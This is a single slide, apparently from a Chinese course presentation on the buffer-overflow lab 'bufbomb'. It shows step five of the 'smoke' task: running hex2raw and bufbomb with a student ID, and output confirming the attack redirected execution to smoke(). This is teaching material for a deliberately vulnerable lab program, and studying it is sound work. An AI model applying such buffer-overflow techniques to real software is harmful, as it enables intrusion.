

# 任务一smoke  解题过程
5.实施攻击

linux> ./hex2raw  <smoke_ U201414557.txt smoke_ U201414557_raw.txt
linux> ./bufbomb -u U201414557  < smoke_ U201414557_raw.txt
Userid:U201414557
Cookie:0x5f405c9a
Type string:Smoke!: You called smoke()
VALID
NICE JOB!                             攻击成功
 -34-